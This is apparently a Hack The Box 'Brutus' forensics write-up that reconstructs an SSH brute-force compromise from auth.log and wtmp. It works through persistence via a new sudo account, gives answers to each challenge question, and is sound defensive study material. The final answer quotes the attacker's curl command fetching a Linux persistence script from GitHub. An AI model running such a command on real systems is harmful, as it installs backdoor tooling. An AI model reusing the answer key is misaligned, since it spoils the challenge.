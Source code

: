 # WRITEUP

HTB Sherlocks: Brutus

# STEPS

Let's start by downloading the provided file `Brutus.zip`, and unzip it.

![image](https://github.com/user-attachments/assets/937d090f-568b-4adf-8cb7-b416dfa97e27)

Using `unzip` gives us `unsupported compression method 99`. 

Let's use the p7zip tool, which supports a wide range of compression formats.

![image](https://github.com/user-attachments/assets/7eab09ca-0346-47b8-9dbd-9a7f10a8b264)

![image](https://github.com/user-attachments/assets/4925ba0a-f2f0-4ace-b602-5d8837352cca)


# QUESTION 1 "Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?"

Let's start by investigating `auth.log`.

We can see many auth attempts for cron jobs, SSH, etc from the IP `65.2.161.68` to IP `172.31.35.28`

![image](https://github.com/user-attachments/assets/af1a38af-e8a3-423c-97b7-02ca12192dab)

# QUESTION 2 "The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?"

![image](https://github.com/user-attachments/assets/ed01a7ac-7f9b-49b6-899b-b046d34e061d)

The bruteforce was successfull on user `root`

# QUESTION 3 "Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact."

![image](https://github.com/user-attachments/assets/9b40a13d-a54a-4aae-a4d3-52a5ed070753)

We can see that the user authenticated at 06:32:44 with root. Although this is when the user authenticated, we are looking for when the user logged in, not when they authenticated.

Let's look at the wtmp artifact for more info, which records creation/destruction of terminals. 

We can use a tool like utmp.py to review wtmp binaries by doing the following:
- Create an output file called `wtmp.out` by inputting `wtmp` into the `utmp.py` tool
- `grep` any entries with the IP `65.2.161.68`

![image](https://github.com/user-attachments/assets/fd36a88d-e6f9-4323-ad4f-443ca1618324)

![image](https://github.com/user-attachments/assets/26110176-724e-4a96-aa6d-817a9c0b9642)

We can see that the root login occured at the following time: 2024/03/06 01:32:45

# QUESTION 4 "SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?"

Looking back at our `auth.log`, we see that after logging on the user was assigned a session # (37) in the line following the successful auth.

![image](https://github.com/user-attachments/assets/86bdbd52-bc43-4402-ad59-a287cb33649e)

# QUESTION 5 "The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?"

We can see the user added a new group to `/etc/group` & `/etc/gshadow` called cyberjunkie.

The user then created a new user (cyberjunkie), changed the password.

The user then added (cyberjunkie) to the group & shadow group `sudo`.

![image](https://github.com/user-attachments/assets/29d22cc8-efa2-48b3-b6c6-d5f7b38ae9ef)

![image](https://github.com/user-attachments/assets/cf7d6b54-a29d-4fbc-bb41-09de3fce6b3d)

# QUESTION 6 "What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?"

We can review the MITRE ATTA&CK framework and categories on https://attack.mitre.org/

![image](https://github.com/user-attachments/assets/bb5be5dc-45bd-4537-abe1-f12e267e8dfa)

The Subtechnique is listed as "T1136.001"

# QUESTION 7 "What time did the attacker's first SSH session end according to auth.log?"

![image](https://github.com/user-attachments/assets/4ce346f6-1e5b-42b2-968b-c719e5e10661)

The session was logged out first, and then session ended at time: 2024/03/06 06:37:24

# QUESTION 8 "The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?"

Let's look for a login for user cyberjunkie and see what we find.

![image](https://github.com/user-attachments/assets/8925a429-b6db-4c60-8078-37a1b910b3ce)

We found a login. Now let's see what `sudo` commands they executed.

`auth.log` typically doesnt track command execution, but any commands run with `sudo` require authentication and therefore will be logged here.

![image](https://github.com/user-attachments/assets/cdc99920-00ba-4998-978a-267cd4f3d4f4)

We can see that the user downloaded a GitHub script using sudo: `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

# END

https://labs.hackthebox.com/achievement/sherlock/2192113/631


